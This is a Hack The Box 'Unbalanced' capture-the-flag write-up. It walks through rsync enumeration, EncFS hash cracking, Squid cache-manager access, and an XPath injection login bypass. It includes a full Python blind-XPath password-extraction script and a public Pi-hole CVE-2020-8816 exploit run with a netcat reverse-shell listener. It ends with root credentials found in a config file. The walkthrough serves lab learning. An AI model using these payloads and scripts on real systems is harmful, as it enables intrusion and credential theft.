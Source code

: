 ```yaml
---
layout: default
title : bvr0n - Unbalanced Write-up
---
```


_**Oct 10, 2020**_

[Unbalanced](https://www.hackthebox.eu/home/machines/profile/268) Writeup


## Nmap Scan :
```
bvr0n@kali:~$ nmap -sC -sV 10.10.10.200
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a2:76:5c:b0:88:6f:9e:62:e8:83:51:e7:cf:bf:2d:f2 (RSA)
|   256 d0:65:fb:f6:3e:11:b1:d6:e6:f7:5e:c0:15:0c:0a:77 (ECDSA)
|_  256 5e:2b:93:59:1d:49:28:8d:43:2c:c1:f7:e3:37:0f:83 (ED25519)
873/tcp  open  rsync      (protocol version 31)
3128/tcp open  http-proxy Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
```

## Rsync :

We can liste all modules through this commands :

```
bvr0n@kali:~$ rsync -av --list-only rsync://10.10.10.200:873
conf_backups    EncFS-encrypted configuration backups
```

We can see that there is a shared folder, let's see what's inside :

```
bvr0n@kali:~$ rsync -av --list-only rsync://10.10.10.200:873/conf_backups
receiving incremental file list
drwxr-xr-x          4,096 2020/04/04 11:05:32 .
-rw-r--r--            288 2020/04/04 11:05:31 ,CBjPJW4EGlcqwZW4nmVqBA6
-rw-r--r--            135 2020/04/04 11:05:31 -FjZ6-6,Fa,tMvlDsuVAO7ek
-rw-r--r--          1,297 2020/04/02 09:06:19 .encfs6.xml
-rw-r--r--            154 2020/04/04 11:05:32 0K72OfkNRRx3-f0Y6eQKwnjn
-rw-r--r--             56 2020/04/04 11:05:32 27FonaNT2gnNc3voXuKWgEFP4sE9mxg0OZ96NB0x4OcLo-
-rw-r--r--            190 2020/04/04 11:05:32 2VyeljxHWrDX37La6FhUGIJS
```

Let's grab the whole folder :

```
bvr0n@kali:~/CTF/HTB/Unbalanced$ rsync -av rsync://10.10.10.200:873/conf_backups conf_backups/.
```

And decrypt it, but first let's turn it to somethin that JohnTheRipper can understand :

```
bvr0n@kali:~/CTF/HTB/Unbalanced$ /usr/share/john/encfs2john.py conf_backups/ > hashed.txt
bvr0n@kali:~/CTF/HTB/Unbalanced$ sudo john hashed.txt --wordlist=/home/bvr0n/Documents/rockyou.txt
[sudo] password for bvr0n: 
Using default input encoding: UTF-8
Loaded 1 password hash (EncFS [PBKDF2-SHA1 128/128 AVX 4x AES])
Cost 1 (iteration count) is 580280 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bubblegum        (conf_backups/)
```

Now all we have to do is decrypt them :

```
bvr0n@kali:~/CTF/HTB/Unbalanced$ encfs ~/CTF/HTB/Unbalanced/conf_backups/ ~/CTF/HTB/Unbalanced/output/
EncFS Password: 
```

Using a basic technick get us the password : 

```
bvr0n@kali:~/CTF/HTB/Unbalanced/output$ cat * | grep -i passwd
cachemgr_passwd Thah$Sh1
```

Looks like we got Cache Manager's Password, [Check Here](http://etutorials.org/Server+Administration/Squid.+The+definitive+guide/Chapter+14.+Monitoring+Squid/14.2+The+Cache+Manager/) for more information about it :

```
bvr0n@kali:~/CTF/HTB/Unbalanced$ squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:fqdncache

Address                                       Flg TTL Cnt Hostnames
127.0.1.1                                       H -001   2 unbalanced.htb unbalanced
::1                                             H -001   3 localhost ip6-localhost ip6-loopback
172.31.179.2                                    H -001   1 intranet-host2.unbalanced.htb
172.31.179.3                                    H -001   1 intranet-host3.unbalanced.htb
127.0.0.1                                       H -001   1 localhost
172.17.0.1                                      H -001   1 intranet.unbalanced.htb
ff02::1                                         H -001   1 ip6-allnodes
ff02::2                                         H -001   1 ip6-allrouters
10.10.14.64                                    N  -221   0
10.10.14.251                                   N  -5322   0
10.10.15.11                                    N  -8266   0
```

When we go to http://172.31.179.1/intranet.php through the proxy, we get a login form , we try some XPATH Injections and we get something :

```
Username : blah' or 1=1 or 'a'='a
Password : blah
```
Now we have to write a scripte to grabe the passwords for us.

After writing an exploit (Thanks to [m3dsec](github.com/m3dsec) for the help) we get the creds for ssh :

Final script :
```python
!/usr/bin/python3
import requests
import string

squid = {"http":"http://10.10.10.200:3128"}
url = 'http://172.31.179.1/intranet.php'

alphabet = string.ascii_letters + string.digits + '@?><":}{)(*&^%$#!~'
users = ['rita','jim','bryan','sarah']
l = 0
fp = ''

for u in users:
    try:
        print("[*] Retriving " + u + "'s password..")
        for i in range(1, 30):
            # for every i, check if character is in that number range
            for c in alphabet:
                paylaod = "' or username='" + u + "' or substring(Password," + str(i) + ",1)='" + str(c) + "' or'"
                form_data = {"Username":u,"Password":paylaod}
                #print(form_data)
                r = requests.post(url, proxies=squid,data=form_data)
                if len(r.text) != 6736 and u in r.text:
                    fp += c
                    print("[*] Found a new character : " + str(c))
                    print("[*] " + u + ":" + fp)
            l += 1
        print("[*] " + u + ":" + fp)
    except KeyboardInterrupt:
        print()
        continue
```
```
rita : pass*******
jim : sta********eaven
bryan : ireal***********egum!!!
sarah : sara*****h'
```
Login to ssh with `bryan` give us the user flag.

After a while and lot of Enumeration i realised that we need to Port-Forward to the Pi-Hole Admin console :
```
bvr0n@kali:~$ ssh -L 8088:localhost:8080 -N -f bryan@10.10.10.200
bvr0n@kali:~$ nmap localhost -p 8088

PORT     STATE SERVICE
8088/tcp open  radan-http
```

Now we can access it, Password is : `admin`

After pooking arount i found this [exploit](https://github.com/AndreyRainchik/CVE-2020-8816), let's give it a try :
```
bvr0n@kali:~/CTF/HTB/Unbalanced$ python3 CVE-2020-8816.py http://127.0.0.1:8088/ admin 10.10.14.44 4444
bvr0n@kali:~/CTF/HTB/Unbalanced$ nc -lnvp 444

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cd /root
$ ls
ph_install.sh
pihole_config.sh
```

After checking `pihole_config.sh` i found something pretty intresting :
```
# Set web admin interface password
/usr/local/bin/pihole -a -p 'bUbBl3********Ry0n3!'
```
That was the Root password for ssh !!!

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
<br>
[back to main](https://bvr0n.github.io/)

<br>
